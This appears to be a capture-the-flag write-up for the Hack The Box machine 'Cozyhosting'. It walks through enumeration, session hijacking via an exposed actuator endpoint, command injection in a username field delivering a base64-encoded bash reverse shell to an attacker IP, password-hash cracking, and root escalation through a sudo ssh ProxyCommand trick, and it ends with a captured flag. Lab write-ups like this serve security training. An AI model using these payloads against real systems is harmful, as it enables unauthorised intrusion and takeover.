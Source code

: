 # Cozyhosting

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/308901db-406c-410f-87bb-17007d33bbef/Untitled.png)

## Enumeration

nmap -A -sV -sS cozyhosting.htb

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/4ef25221-41ca-47d9-ba7c-c7eda9fd8ef9/Untitled.png)

dirsearch -u cozyhosting.htb

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/9222389e-4e4a-4c3e-a79a-08bab3df3ce5/Untitled.png)

I found the session ids for the users in this link http://cozyhosting.htb/actuator/sessions. So i tried to login with the session id of kanderson in inspetctor and i had success.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/61459a95-00d7-4a44-b926-19143e29ca08/Untitled.png)

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/f8f2793f-68b0-4150-99d8-29874073aab5/Untitled.png)

## Exploitation

Scrolling to the bottom of the website i saw possible ssh conection. I passed some inputs and captured them on burpsuite.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/bef895fa-8c4f-4cb5-bae5-9f1062dac1ea/Untitled.png)

It responded to the command, so we will try to reverse shell enconded with base64 because of the special characters.

Payload (base64): echo “`/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/443 0>&1'`" | base64 -w 0

`username=2>/dev/null;echo${IFS}<base64_encoded_payload>|base64${IFS}-d|/bin/bash;#`

SHELL OWNED.

Now we need the user josh flag. We can see this file: cloudhosting-0.0.1.jar.

I created a local server on the machine to download the file:

`python3 -m http.server 4444`

wget http://10.10.11.230:4445/cloudhosting-0.0.1.jar

jd-gui [cloudhosting-0.0.1.jar](http://10.10.11.230:4445/cloudhosting-0.0.1.jar) to see the file 

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/816f822d-6d16-4c4e-8f8d-8002f9ce9caf/Untitled.png)

Login in postgres database: psql -h 127.0.0.1 -U postgres

Select * from users;

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f9bfba05-ffac-4cb7-8ab6-1bb2160c2151/adfd133a-3bf2-451e-986f-0f3742ba1bee/Untitled.png)

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

ssh josh@cozyhosting.htb

## Privilege Escalation

sudo -l to see what josh can run as root: (root) /usr/bin/ssh *

There was a simple payload at GTFOBINS which successfully allowed us to get the shell as the superuser(root).

Payload: https://gtfobins.github.io/gtfobins/ssh/#sudo

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` → FLAG: c70f826511e78055af97293ec35d6420